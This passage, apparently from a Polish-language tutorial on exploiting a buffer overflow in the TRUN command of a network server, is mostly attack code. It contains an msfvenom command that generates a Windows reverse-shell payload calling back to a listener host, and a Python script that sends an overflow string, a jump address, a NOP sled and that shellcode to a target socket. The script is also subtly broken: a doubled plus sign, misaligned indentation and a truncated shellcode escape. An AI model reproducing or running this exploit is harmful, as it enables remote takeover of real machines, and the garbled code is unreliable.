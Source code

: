     msfvenom -p windows/shell_reverse_tcp LHOST=192.168.201.130 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"

Dostaniemy nasz *shellcode* zapisany w postaci szesnastkowej. Edytujemy ponownie nasz plik *2.py* w poniższy sposób. Zatem na początku naruszamy bufor wypisując 2003 razy "A", później przechodzimy do *jump pointu*, a z tego *jump pointu* przechodzimy do naszego złośliwego kodu wygenerowanego powyżej (przed wartością *overflow* znajduje się jeszcze polecenie 32 * "\x90", \x90 odpowiada za "nic nie robienie", trochę wolnej przestrzeni zapewni nam większe prawdopodobieństwo ukończenia naszego działania).


```python
#!/usr/bin/python

import sys, socket

overflow = ("\xda\xc5\xd9\x74\x24\xf4\x5a\x31\xc9\xbf\x46\x5d\xb1\x8e"
"\xb1\x52\x31\x7a\x17\x83\xc2\x04\x03\x3c\x4e\x53\x7b\x3c"
"\x98\x11\x84\xbc\x59\x76\x0c\x59\x68\xb6\x6a\x2a\xdb\x06"
"\xf8\x7e\xd0\xed\xac\x6a\x63\x83\x78\x9d\xc4\x2e\x5f\x90"
"\xd5\x03\xa3\xb3\x55\x5e\xf0\x13\x67\x91\x05\x52\xa0\xcc"
"\xe4\x06\x79\x9a\x5b\xb6\x0e\xd6\x67\x3d\x5c\xf6\xef\xa2"
"\x15\xf9\xde\x75\x2d\xa0\xc0\x74\xe2\xd8\x48\x6e\xe7\xe5"
"\x03\x05\xd3\x92\x95\xcf\x2d\x5a\x39\x2e\x82\xa9\x43\x77"
"\x25\x52\x36\x81\x55\xef\x41\x56\x27\x2b\xc7\x4c\x8f\xb8"
"\x7f\xa8\x31\x6c\x19\x3b\x3d\xd9\x6d\x63\x22\xdc\xa2\x18"
"\x5e\x55\x45\xce\xd6\x2d\x62\xca\xb3\xf6\x0b\x4b\x1e\x58"
"\x33\x8b\xc1\x05\x91\xc0\xec\x52\xa8\x8b\x78\x96\x81\x33"
"\x79\xb0\x92\x40\x4b\x1f\x09\xce\xe7\xe8\x97\x09\x07\xc3"
"\x60\x85\xf6\xec\x90\x8c\x3c\xb8\xc0\xa6\x95\xc1\x8a\x36"
"\x19\x14\x1c\x66\xb5\xc7\xdd\xd6\x75\xb8\xb5\x3c\x7a\xe7"
"\xa6\x3f\x50\x80\x4d\xba\x33\x6f\x39\x0d\x41\x07\x38\x8d"
"\x57\x84\xb5\x6b\x3d\x24\x90\x24\xaa\xdd\xb9\xbe\x4b\x21"
"\x14\xbb\x4c\xa9\x9b\x3c\x02\x5a\xd1\x2e\xf3\xaa\xac\x0c"
"\x52\xb4\x1a\x38\x38\x27\xc1\xb8\x37\x54\x5e\xef\x10\xaa"
"\x97\x65\x8d\x95\x01\x9b\x4c\x43\x69\x1f\x8b\xb0\x74\x9e"
"\x5e\x8c\x52\xb0\xa6\x0d\xdf\xe4\x76\x58\x89\x52\x31\x32"
"\x7b\x0c\xeb\xe9\xd5\xd8\x6a\xc2\xe5\x9e\x72\x0f\x90\x7e"
"\xc2\xe6\xe5\x81\xeb\x6e\xe2\xfa\x11\x0f\x0d\xd1\x91\x2f"
"\xec\xf3\xef\xc7\xa9\x96\x4d\x8a\x49\x4d\x91\xb3\xc9\x67"
"\x6a\x4")

shellcode = "A" * 2003 + "\xaf\x11\x50\x62" + + "\x90" * 32 + overflow

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('192.168.201.128', 9999))
        s.send(('TRUN /.:/' + shellcode))
        s.close()
except:
    print "Error occured while connecting to server"
    sys.exit()
```
